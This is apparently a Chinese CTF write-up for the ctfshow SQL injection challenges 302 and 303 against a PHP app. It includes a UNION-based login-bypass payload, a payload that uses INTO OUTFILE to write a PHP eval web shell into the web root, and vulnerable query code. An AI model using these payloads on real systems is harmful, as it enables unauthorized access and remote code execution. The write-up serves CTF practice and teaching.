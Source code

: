 ## 302 sql注入

> hint:
>
> 修改的地方：
>
> ```php
> if(!strcasecmp(sds_decode($userpwd),$row['sds_password'])){
> ```

也就是比原本加了个sds_decode()，找到fun.php里

```php
function sds_decode($str){
	return md5(md5($str.md5(base64_encode("sds")))."sds");
}
```

数据库里还是`admin/ctfshowwwww`，所以用这个登录是登不进的
想符合比较需要：
传入的userid经过sds_decode后等于`ctfshowwwww`，个人感觉不太可行

### 解法1：

可以看到username只是作为where的条件进行查询，真正进行判断的还是userpwd

那么利用联合查询的特性伪造一个密码出来：

![](https://i.loli.net/2021/10/06/QbZBImkE4wY3v5M.png)

```
userid=-1' union select "d9c77c4e454869d5d8da3b4be79694d3" %23&userpwd=1
```

![](https://i.loli.net/2021/10/06/jasWfrboUZkGtwc.png)

相关原理这里不赘述，自己本地试![](https://i.loli.net/2021/10/06/yiz5XrtLZxg8DQ1.png)

### 解法2：

sql语句依然没有添加过滤，也能正常被执行，那么写马还是可以的

```php
userid=' union select "<?php eval($_GET[1]);" into outfile "/var/www/html/a.php" --+
```



## 303 sql注入

这次seay有审到：dptadd.php，还是sql注入![](https://i.loli.net/2021/10/06/puIAoJWvV164XiZ.png)

```php
$sql="insert into sds_dpt set sds_name='".$dpt_name."',sds_address ='".$dpt_address."',sds_build_date='".$dpt_build_year."',sds_have_safe_card='".$dpt_has_cert."',sds_safe_card_num='".$dpt_cert_number."',sds_telephone='".$dpt_telephone_number."';";
```

